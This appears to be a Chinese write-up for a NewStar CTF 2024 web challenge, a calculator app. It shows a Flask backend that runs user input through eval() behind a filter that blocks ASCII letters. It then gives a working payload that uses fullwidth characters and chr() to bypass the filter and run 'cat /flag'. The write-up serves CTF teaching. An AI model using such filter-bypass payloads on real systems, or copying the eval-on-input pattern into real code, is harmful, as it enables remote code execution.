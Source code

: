 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# 臭皮的计算器

开发者工具查看网页源码

![源码](/assets/images/wp/2024/week3/jisuanqi_1.png)

根据提示进入 `/calc` 路由，查看网页源码

![calc 源码](/assets/images/wp/2024/week3/jisuanqi_2.png)

得到了 Python 后端源码

```python
from flask import Flask, render_template, request
import uuid
import subprocess
import os
import tempfile

app = Flask(__name__)
app.secret_key = str(uuid.uuid4())

def waf(s):
    token = True
    for i in s:
        if i in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
            token = False
            break
    return token

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/calc", methods=['POST', 'GET'])
def calc():

    if request.method == 'POST':
        num = request.form.get("num")
        script = f'''import os
print(eval("{num}"))
'''
        print(script)
        if waf(num):
            try:
                result_output = ''
                with tempfile.NamedTemporaryFile(mode='w+', suffix='.py', delete=False) as temp_script:
                    temp_script.write(script)
                    temp_script_path = temp_script.name

                result = subprocess.run(['python3', temp_script_path], capture_output=True, text=True)
                os.remove(temp_script_path)

                result_output = result.stdout if result.returncode == 0 else result.stderr
            except Exception as e:

                result_output = str(e)
            return render_template("calc.html", result=result_output)
        else:
            return render_template("calc.html", result="臭皮！你想干什么！！")
    return render_template("calc.html", result='试试呗')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=30002)
```

审计发现过滤了所有字母，使用全角英文和 `chr()` 字符拼接（或八进制）即可绕过

```python
_＿ｉｍｐｏｒｔ_＿(ｃｈｒ(111)+ｃｈｒ(115)).ｓｙｓｔｅｍ(ｃｈｒ(99)+ｃｈｒ(97)+ｃｈｒ(116)+ｃｈｒ(32)+ｃｈｒ(47)+ｃｈｒ(102)+ｃｈｒ(108)+ｃｈｒ(97)+ｃｈｒ(103))
```

其中 `111 115` 分别对应 `os` 的 ASCII 码，`99 97 116 32 47 102 108 97 103` 分别对应 `cat /flag` 的 ASCII 码

::: warning 注意
发包的时候，加号要做转义处理，否则会被视作空格
:::
